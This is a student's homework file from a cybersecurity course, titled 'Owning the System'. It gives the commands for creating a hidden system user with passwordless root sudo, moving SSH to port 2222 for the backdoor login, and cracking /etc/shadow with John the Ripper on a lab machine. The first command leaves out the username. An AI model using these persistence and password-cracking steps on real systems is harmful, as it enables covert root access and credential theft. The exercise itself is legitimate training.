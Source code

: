 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - **`adduser --no-create-home `**

2. Give your secret user a password: 
    - **`passwd sysd`**

3. Give your secret user a system UID < 1000:
    - **`usermod -u 36 sysd`**

4. Give your secret user the same GID:
   - **`groupmod -g 36 sysd`**
	   - **The group "sysd" was already created when I created the user. This command simply modifies the group ID for that group.**

5. Give your secret user full `sudo` access without the need for a password:
   -  **`visudo`**
   **Added the following line to the end of the 'sudoers' file:**
   **`sysd ALL=(ALL) NOPASSWD:ALL`**

6. Test that `sudo` access works without your password:
    ```bash
    su sysd
    <as 'sysd'> sudo -l
    <as 'sysd'> sudo visudo
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    vi /etc/ssh/sshd_config
    <----- Editing 'sshd_config' ----->
    <Added the following line under '#Port 22':>
    Port 2222
    <----- Saved edits to 'sshd_config' ----->
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - **`sudo systemctl restart ssh.service`**

2. Exit the `root` account:
    - **`exit`**

3. SSH to the target machine using your `sysd` account and port `2222`:
    - **`ssh sysd@192.168.6.105 -p 2222`**

4. Use `sudo` to switch to the root user:
    - **`sudo -s`**

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - **`ssh sysd@192.168.6.105 -p 2222`**

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - **`john -wordlist /usr/share/john/password.lst /etc/shadow`**
    **I escalated to the root account using "sudo -s".**

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

<!--stackedit_data:
eyJoaXN0b3J5IjpbOTQ4ODYzNzY1LC04MzIyMDk4NjMsNzE2MD
E3MTY2LC0xODUzMjIzOTA5LDE5NzMzNjMwMDQsNDg4NzEwOTIw
LDIxNzMwMTM4MCwtNTcxNDM5NzQzLC0xNTg5MTA2ODkxLC0yMD
IyODM2NzcsLTE2NjE3NjEwNjEsLTE3NTAxOTUxMjldfQ==
-->